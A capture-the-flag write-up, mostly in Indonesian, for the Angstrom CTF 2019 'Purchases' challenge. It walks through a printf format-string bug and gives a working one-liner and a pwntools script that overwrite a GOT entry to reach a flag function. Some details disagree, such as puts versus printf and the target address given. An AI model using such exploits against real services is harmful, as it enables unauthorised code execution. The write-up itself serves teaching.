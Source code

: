 # __Angstrom CTF 2019__ 
## _Purchases_

## Information
**Category:** | **Points:** | **Writeup Author**
--- | --- | ---
Binary | 120 | l0l

**Description:** 

> 120 points 98 solves
>
> nc shell.actf.co 19011
>
> Author: defund
>
> Given : [binary](./purchases) and [source](./purchases.c)


### Purchases
```
purchases: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=81d703c9e71c8e60af8bdd4515f6bada05bcbcf8, not stripped

gdb-peda$ checksec
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

```

0x00000000004011b6  flag
0x00000000004011c9  main
```

### Pie Shop Source Code
```c
void flag() {
	system("/bin/cat flag.txt");
}

int main() {
...
	char item[60];
	printf("What item would you like to purchase? ");
	fgets(item, sizeof(item), stdin);
	item[strlen(item)-1] = 0;

	if (strcmp(item, "nothing") == 0) {
		printf("Then why did you even come here? ");
	} else {
		printf("You don't have any money to buy ");
		printf(item);
		printf("s. You're wasting your time! We don't even sell ");
		printf(item);
		printf("s. Leave this place and buy ");
		printf(item);
		printf(" somewhere else. ");
	}
...
```

### Solve
Dari source code terlihat jelas disini kita punya format string vulnerability selama input kita bukan "nothing". Tujuannya jelas memanggil fungsi `flag`.
```
   0x000000000040131a <+337>:   call   0x401080 <printf@plt>
   0x000000000040131f <+342>:   lea    rdi,[rip+0xdda]        # 0x402100
   0x0000000000401326 <+349>:   call   0x401030 <puts@plt>
   0x000000000040132b <+354>:   mov    eax,0x0
```
Tepat setelah printf ternyata ada fungsi `puts`. Kita dapat overwrite GOT agar ketika memanggil `puts` kita justru masuk ke funsgi `flag`.

Dengan sedikit trial and error, diketahui bahwa input kita akan menjadi argumen ke-8 dan seterusnya dari printf.
```
What item would you like to purchase? AAAAAAAA%8$p
You don't have any money to buy AAAAAAAA0x4141414141414141s. You're wasting your time! We don't even sell AAAAAAAA0x4141414141414141s. Leave this place and buy AAAAAAAA0x4141414141414141 somewhere else. Get out!
```

Address puts : 0x404018
```
gdb-peda$ pdisass 0x401030
Dump of assembler code from 0x401030 to 0x401050::      Dump of assembler code from 0x401030 to 0x401050:
   0x0000000000401030 <puts@plt+0>:     jmp    QWORD PTR [rip+0x2fe2]        # 0x404018 <puts@got.plt>

gdb-peda$ x 0x404018
0x404018 <puts@got.plt>:        0x00401036
```

Kita harus memasukkan address `flag` (0x00000000004011b6) ke 0x401030.


### Payload
Cara bodoh :v
```bash
python -c "print '%4198838u%11\$n          \x18\x40\x40'" | nc shell.actf.co 19011
```

Cara lumayan smart 
```py
from pwn import *
elf = ELF('./purchases')
printf_address = elf.symbols['got.printf']
flag = elf.symbols['flag']			# Get the function flag() address
flag = str(flag)					# Convert to string
payload = '%' + flag + 'x%10$ln'	# Using ln because of 8 bytes address
# p = elf.process()
p = remote('shell.actf.co',19011)
p.recvuntil("purchase? ")
p.sendline(payload.rjust(16)+p64(printf_address)[:3])
p.interactive()
```

### Flag 
actf{limited_edition_flag}